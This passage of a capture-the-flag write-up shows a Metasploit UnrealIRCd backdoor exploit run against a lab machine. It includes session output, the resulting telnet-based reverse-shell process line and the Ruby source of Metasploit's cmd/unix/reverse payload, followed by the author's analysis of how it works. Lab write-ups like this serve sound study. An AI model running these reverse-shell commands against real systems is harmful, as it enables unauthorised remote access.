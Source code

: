 Now I run it, and get a shell:

```

msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP double handler on 10.10.14.14:4444 
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:6697 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo DklVGHbcoUDn6OCZ;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "DklVGHbcoUDn6OCZ\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (10.10.14.14:4444 -> 10.10.10.117:49955) at 2019-04-04 09:30:17 -0400

id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)

```

A new entry shows up in the process list:

```

ircd      4873  0.0  0.0   2276    72 ?        S    09:20   0:00 sh -c (sleep 4054|telnet 10.10.14.14 4444|while : ; do sh && break; done 2>&1|telnet 10.10.14.14 4444 >/dev/null 2>&1 &)

```

That struck me as interesting. I found the source code for `cmd/unix/reverse`, the default payload for this exploit:

```

def command_string
  cmd =
    "sh -c '(sleep #{3600+rand(1024)}|" +
    "telnet #{datastore['LHOST']} #{datastore['LPORT']}|" +
    "while : ; do sh && break; done 2>&1|" +
    "telnet #{datastore['LHOST']} #{datastore['LPORT']}" +
    " >/dev/null 2>&1 &)'"
  return cmd
end

```

That’s an interesting command string. Here’s what I think is happening. When you pipe `sleep` into something, the next thing runs. If that thing is waiting for input, it will block waiting for input. But if not, it will start running immediately as well.
